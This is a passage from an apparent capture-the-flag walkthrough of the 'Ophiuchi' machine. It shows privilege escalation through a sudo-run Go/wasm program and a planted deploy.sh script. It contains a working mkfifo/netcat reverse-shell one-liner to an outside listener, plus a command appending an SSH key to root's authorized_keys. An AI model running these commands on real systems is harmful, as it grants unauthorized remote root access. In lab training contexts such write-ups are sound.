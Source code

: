 Compile the program again, and up in the machine.

``` {#1ed1253a-d438-4092-9595-083f967934df .code}
wat2wasm main.wat
```

[![](Ophiuchi/Untitled%2024.png)](Ophiuchi/Untitled%2024.png)

In the same folder create a file called [deploy.sh](http://deploy.sh),
paste your reverse shell or send a ssh-key and run sudoers command:

``` {#ca9c0b96-cd0a-42b3-945c-653b03811655 .code}
sudo /usr/bin/go run /opt/wasm-functions/index.go

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
#or
echo "YOUR SSH KEY" >> /root/.ssh/authorized_keys
```

[![](Ophiuchi/Untitled%2025.png)](Ophiuchi/Untitled%2025.png)
